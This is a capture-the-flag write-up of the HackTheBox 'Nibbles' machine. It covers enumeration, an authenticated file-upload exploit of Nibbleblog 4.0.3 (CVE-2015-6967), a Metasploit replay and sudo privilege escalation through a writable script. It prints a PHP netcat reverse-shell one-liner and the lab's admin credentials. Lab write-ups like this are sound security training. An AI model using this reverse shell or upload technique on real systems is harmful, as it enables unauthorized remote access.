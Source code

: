 # Nibbles - Linux (Easy)

## Summary

This box hosts a vulnerable version of Nibbleblog, an opensource CMS, as evident in the name - This box is easily exploited by Metasploit, which I will be covering. However, as always, I will be prioritizing manual exploitation. In this box, I will be abusing PHP plugins in Nibbleblog to call a reverse shell, giving me a user foothold in the process. My Privilege Escalation methodology involves manipulating backup scripts to gain root access. 

## Enumeration

I began Enumeration by running an `Nmap` script, which was slightly underwhelming, only returning SSH (Port 22) and HTTP (Port 80).

```
sudo nmap -A -T4 -sV $machine_IP

-A - Aggresive Scan
-T4 - Aggresive Timing Template
-sV Version Scan
```

![nmap](Images/nmap.png)

### Gobuster Recon

Enumerating Port 80, I ran `gobuster` against the target VM to discover directories to further my reconnaissance.

```
gobuster dir -x "html, css, json, php, xml" -u "$machine_IP" -w "wordlist" 2> /dev/null -k -t 50

"-x" - flag to specify directory extensions
"-w" - specify wordlist
"2> /dev/null" - redirecting errors to /dev/null for cleaner output
"-k" - Skip SSL certificate verification
"-t 50" - 50 Threads
```

![gobuster_1](Images/gobuster.png)

The only result in the initial Gobuster scan was `index.html`. Navigating to this page returned a "Hello World" message. Opening the page source provided the first real indication of the target running on Nibbleblog. 

![index](Images/index.html.png)

Following this, I re-ran the initial Gobuster scan, appending the `/nibbleblog` directory to the $machine_IP URL which returned more results this time around.

![gobuster_2](Images/gobuster_2.png)

The gobuster scan results included a certain `admin.php` path that renders a login page. 

![browsing_admin](Images/browsing_admin.png)

Traversing through the rest of the directories led me to `http://$machine_IP/nibbleblog/content/private/users.xml`

![admin_code](Images/admin_code.png)

Another file returned in the Gobuster results is a `README` file which provides the version number making it possible to look for version specific vulnerabilities in Searchsploit and Metasploit.

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
...
```

This box is interesting in that it blocks IP addresses for 5 minutes after 5 unsuccessful login attempts when makes standard brute-forcing tricky. With a combination of guesswork and googling, I was able to successfully log in. 

## Getting a Shell

### Manual Exploitation

The [Curesec](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) Proof of Concept (PoC) for Nibbleblog Code Execution covers CVE-2015-6967 and since we've got the Admin Credentials, we're able to manipulate the "My Image" Plugin - the CMS keeps the original extension that is not validated - this makes it possible to upload a PHP reverse shell from [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $machine_IP 8082 >/tmp/f"); ?>
```

### Getting user access

After curating the payload, the next stage involves Activating the "My Image" plugin and uploading the PHP shell. 

![plugins](Images/plugins.png)

After ensuring that my netcat listener is in place, I navigate to the `image.php` reverse shell to run it, triggering the reverse shell that is caught by my netcat listener, providing me with a user foothold.

![payload_exec](Images/payload_exec.png)

![nc](Images/nc.png)

### Replicating with Metasploit

Searching for Nibbleblog 4.0.3 provides us with the `multi/http/nibbleblog_file_upload` module on Metasploit. This module requires certain parameters to be set

```
USERNAME - admin
PASSWORD - nibbles
TARGETURI - /nibbleblog/
```

![metasploit_options](Images/metasploit_options.png)

Running this module returns a user level command prompt, which can be manipulated to gain root access.

![run_metasploit](Images/run_metasploit.png)

![user.txt](Images/user_foothold_metasploit.png)

## Privilege Escalation

Running `sudo -l` to identify what can be run as the root user, shows that the user can run a certain `monitor.sh` script as root without requiring a superuser password. This is made easier by the fact that `monitor.sh` is can be written by all entities. 

![sudo -l](Images/sudo-l.png)

![unzip](Images/unzip_personal.png)

In this case, we are able to recycle the revshell payload by changing the LPORT number from the initial reverse shell to get user foothold and appending it to the end of `monitor.sh`. 

![revshell2](Images/revshell2.png)

![nc2](Images/nc2.png)

Meanwhile we prepend running the script with `sudo` and we've got a reverse shell, this time with superuser privileges. 

![root.txt](Images/root.txt.png)

### Completion

![cert](Images/cert.png)
